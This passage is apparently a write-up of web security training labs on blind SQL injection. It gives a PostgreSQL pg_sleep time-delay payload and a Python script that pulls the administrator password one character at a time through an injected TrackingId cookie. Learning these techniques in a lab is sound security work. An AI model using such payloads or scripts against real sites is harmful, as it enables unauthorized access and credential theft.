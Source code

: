 To solve this lab, trigger a 10s delay. This lab doesn't show me any errors or whatever.

In this case, I tested with multiple different payloads for different databases, and found that this one works:

```sql
x';SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
Pretty self-explanatory. 

## Lab 15: Time Based Blind SQLI

This is the same thing as above, just that now I have to extract the password of `administrator`. 

Firstly, I tested the type of database that this was running on, and found that the above payload for PostgreSQL works.

Next, using the same template script I've created, replace the true condition with `elapsed.total_seconds() > 2`, since I used `pg_sleep(2)`.

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a8b00780357dec5803b08c500870056'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()
all_chars = string.ascii_lowercase + string.digits
while True:
	done = True
	for j in all_chars:
		payload = f"x'%3B SELECT CASE WHEN SUBSTRING(password,{i},1)='{j}' THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--"
		cookies = {
			'session': f'{COOKIE}',
			'TrackingId': payload
		}
		r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
		if r.elapsed.total_seconds() > 2:
			sys.stdout.write(j)
			sys.stdout.flush()
			i += 1
			done = False
			break
		else:
			continue
	if done:
		break
```
